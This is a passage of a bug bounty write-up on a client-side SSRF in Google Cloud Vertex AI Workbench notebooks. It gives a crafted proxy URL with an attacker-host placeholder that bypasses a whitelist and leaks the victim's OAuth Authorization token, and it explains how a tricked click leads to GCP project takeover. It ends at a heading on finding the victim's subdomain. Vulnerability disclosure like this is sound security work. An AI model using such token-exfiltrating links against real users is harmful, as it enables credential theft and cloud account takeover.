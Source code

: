 +++
title = 'Client-Side SSRF to Google Cloud Project Takeover [Google VRP]'
date = 2023-01-12T19:42:44+05:30
+++

This write-up is a part of a series of write-ups about the bugs I and [Sivanesh](https://twitter.com/sivaneshashok) found in Google Cloud in 2022.  

Google Cloud offers [Vertex AI](https://cloud.google.com/vertex-ai/), which lets you build, deploy and scale machine learning models. In addition to various other features, Vertex AI also provides a ["Workbench"](https://cloud.google.com/vertex-ai/docs/workbench/introduction) feature. Workbench enables you to create Jupyter notebook-based development environment on the cloud. If you have used a Jupyter notebook, you would know that there are a lot of things that could go wrong here. So I decided to dig deeper.  

Workbench provides you with two options:

- **Managed notebooks** instances are notebooks hosted in Google-managed environments. Which means you won't have much control over it.
- **User-managed notebooks** are heavily customizable and are entirely managed by the user.  

## Initial bug
 When you create a notebook, it will give you an instance at `https://{random-number}-dot-us-central1.notebooks.googleusercontent.com/`

Since managed notebooks are in a Google-managed environment (which is sandboxed), they won't have access to your Google cloud data. So you have to give managed notebooks the permission to access your Google Cloud data via an OAuth flow.  

![Auth](/images/gcloud-ssrf/auth.png)  
*`Scope: https://www.googleapis.com/auth/cloud-platform`*  

After authenticating, I decided to use the app to understand the flow. Then I stumbled upon this particular URL :  

`https://{INSTANCE-ID}-dot-us-central1.notebooks.googleusercontent.com/aipn/v2/proxy/compute.googleapis.com/something`  

Hmm, that smells SSRF to me. Requesting the original URL resulted in a response that looked like the output of an authenticated request sent to `compute.googleapis.com` . From previous experience, I know these endpoints use the Authorization header for credentials.  

I tried changing `compute.googleapis.com` to geekycat.in. But it didn't work, it looks like some whitelisting is put into place. After fuzzing around, I have found that `https://{INSTANCE-ID}-dot-us-central1.notebooks.googleusercontent.com/aipn/v2/proxy/{attacker.com}/compute.googleapis.com/` bypasses the check, that was easy 😅  

The logs to my server revealed that it received the request with the `Authorization` token in the header. I quickly verified the access-token. It indeed had `Cloud-Platform` permission to my Google account. Furthermore, the vulnerable endpoint was a `GET` request with no CSRF protection (pretty common).  This means, by tricking the victim into clicking on the crafted link, the attacker could obtain the authorization token and gain complete access to all of the victim's GCP projects.  

## Ways to obtain victim's instance subdomain:  
